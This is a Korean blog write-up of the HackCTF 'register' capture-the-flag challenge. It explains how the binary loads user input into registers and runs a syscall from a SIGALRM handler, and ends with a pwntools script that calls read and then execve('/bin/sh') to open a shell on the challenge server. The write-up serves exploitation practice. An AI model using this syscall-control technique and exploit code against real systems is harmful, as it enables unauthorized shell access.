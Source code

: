 ```yaml
---
layout: post
title:  "HackCTF register write-up"
date:   2020-03-15 19:45:55
image:  hackctf_register.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled.png)

NX와 canaray가 걸려있다. got overwrite가 가능할 것으로 보인다
<br><br><br>


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%201.png)

바이너리를 실행시키면 RAX, RDI, RSI, RDX, RCX, R8, R9 에 계속 입력을 받는다.
<br><br><br>


**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%202.png)

메인은 간단하다. 알람함수가 있고, build() 함수가 존재한다. build 함수를 살펴보자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%203.png)

우측 사진이 build 함수이다. 코드를 보면 while 문 안에 do-while 문이 또 존재한다. v0는 8바이트 단위의 배열로 총 7개의 인덱스를 갖는다. get_obj함수가 v0를 인자로 호출이된다. 해당 함수

get_obj함수는 v0의 시작주소를 인자로 하여 호출된다. get_obj 함수를 살펴보자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%204.png)

여기서 문자열들이 출력되면서 값이 저장되는것 같다. get_ll()함수가 무엇은 반환하는지 확인해보자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%205.png)

여기서도 get_inp 함수가 또있다. nptr에 저장된 문자열을 atoi 함수를 이용하여 long 형태로 변환한다. 마지막으로 get_inp 함수를 살펴보자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%206.png)

결국 입력받는 함수는 read인것으로 확인된다!. 여기서 a1과 a2는 각각 get_inp에서 인자로 넣어준 nptr 변수와 0x20 사이즈이다.
<br><br>
다시 build 함수로 돌아와보자. get_obj 함수는 위와같은 호출과정을 거쳐서 진행되고, 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%207.png)

v0을 obj_7에 넣는다. obj_7은 .bss 영역에 존재하는 전역변수로 아래 unk_ 이 부분도 .bss에 존재한다. 코드로 보면 헷갈리니 어셈으로 봐보자.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%208.png)

어셈을 확인하면, rbp-0x40 값을 rax에 넣고 그 값을 rip+머시기에 넣는다. 이 곳은 아까 전역변수인 obj_7의 주소이다. 그 아래도 쭉 8바이트 단위로 값을 넣는데, 이 뜻은 우리가 입력한 7개의 값이 전역변수 배열로 복사된다는 뜻이다. 

분명 의미가 있는 동작일 것이다. 
<br><br>
일단 그다음 코드를 확인해보자. 전연변수로 값들이 복사되고 alidate_syscall_obj 함수가 호출된다. 
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%209.png)

요런 코드로 해당 함수를 구성되있다. 결국 해당 함수는 0 아니면 1을 리턴하는데, 이 리턴값에 따라서 build 함수의 로직이 나뉜다.
<br><br>
만약 0을 리턴했다면, 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%2010.png)

raise(14)가 호출될 것이고 1을 리턴했다면 다시 위로 돌아가 get_obj 함수부터 다시 호출될 것이다.
<br><br>
signo 14는 SIGALRM 으로 프로세스에게 해당 시그널을 보내게되고 이때 signal함수가 호출되면서 지정된 핸들러가 수행된다.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%2011.png)

위의 핸들러가 수행되는데 이 핸들러에 등록된 동작을 확인해보자.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%2012.png)
<br><br>
해당 핸들러는 obj_7을 인자로 하여 exec_syscall_obj를 호출한다. 잘 생각해보면 전역변수에 우리가 입력한 값들을 복사하는 이유가 있을것같다고 했다. 바로 여기서 이용이 되는 것이다. 그렇다면 exec_syscall_obj를 확인해보자
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%2013.png)

현재 rdi에 우리가 입력한 값이 저장된 배열의 시작주소가 저장되어 있다. 이거를 rbx에 복사하여 8바이트씩 꺼내어 실제 레지스터에 복사하고, syscall이 호출된다.

따라서 우리가 입력한 값들은 실제 레지스터에 들어가는 것이다. 그렇다면 이 부분을 이용하면 된다

sysrop 문제때 syscall을 이용하는 방법을 공부했다. 따라서 rax=0을 이용하여 read함수를 호출하고, /bin/sh 문자열을 bss 영역에 저장한다. 그 다음 rax=59를 이용하여 execve함수를 호출하면 된다.

인자는 그대로 주면 되기 때문에 따로 설명은 안하겠다.
<br><br><br><br><br>




### 2. 접근방법

---

코드를 설명하면서 필요한 부분은 다 살펴보았기 때문에 마지막으로 정리를 해보자. 

현재 해당 바이너리에서 SIGALARM을 발생시키는 방법이 2가지가 존재한다.

- **main 문의 alarm(5)**

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%2014.png)

    해당 시그널은 단지 5초만 기다리면 발생된다. 따라서 아무것도 안해도 5초뒤에 해당 알람시그널이 발생하여 signal 핸들러가 동작한다.
<br><br>
- **raise(14)**

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Register/Untitled%2015.png)

    validate_syscall_obj함수가 0을 리턴하면 raise(14)가 호출되서 signal 핸들러가 동작한다.


<br><br>
우리가 첫번째로 호출한 syscall을 이용할 함수는 read함수이다. 이는 rax가 0이므로 바로 raise(14)가 호출되서 문제가 없다. 하지만 execve() 는 rax가 59일때 동작하는데, 해당 경우는  validate_syscall_obj가 1을 반환하기 떄문에 raise(14) 함수가 호출되지 않고 다시 위로 돌아가서 반복문이 실행된다.
<br><br>
따라서 execve()를 실행시키기 위해서 익스코드에 5초정도 시간이 흐르게끔 sleep을 걸어야한다. 타이밍이 맞았다면, execve()가 호출될 것이다.



<br><br><br><br>

### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *

context.log_level="DEBUG"
p =remote("ctf.j0n9hyun.xyz", 3026)

p.sendlineafter("RAX: ","0")
p.sendlineafter("RDI: ","0")
p.sendlineafter("RSI: ","6297984")
p.sendlineafter("RDX: ","8")
p.sendlineafter("RCX: ","0")
p.sendlineafter("R8: ","0")
p.sendlineafter("R9: ","0")
#sleep(4)
p.send("/bin/sh\x00")

p.sendlineafter("RAX: ","59")
p.sendlineafter("RDI: ","6297984")
p.sendlineafter("RSI: ","0")
p.sendlineafter("RDX: ","0")
p.sendlineafter("RCX: ","0")
p.sendlineafter("R8: ","0")
p.sendlineafter("R9: ","0")
sleep(4)
p.interactive()
```


<br><br><br><br>

### 4. 몰랐던 개념

---

결국 롸업을 보고야 말았다. 

젠장.. 이번 문제는 모르는 지식은 없었지만,, 꼼꼼히 살펴보지 않았기 때문에 signal 관련 부분을 보지 않았다..

무조건 leak 시켜서 ROP를 진행하려고 했던 나의 무지함을 깨닫는 하루이다.. 집중해서 풀자이제!